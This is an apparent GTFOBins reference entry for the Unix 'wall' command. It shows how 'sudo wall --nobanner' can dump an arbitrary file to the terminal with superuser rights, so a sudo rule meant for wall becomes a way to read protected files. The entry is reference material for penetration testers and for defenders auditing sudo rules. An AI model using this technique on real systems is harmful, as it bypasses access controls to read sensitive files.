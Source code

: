 # GTFOBin: wall

The textual file is dumped on the current TTY (neither to `stdout` nor to `stderr`).

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo wall --nobanner "$LFILE"
```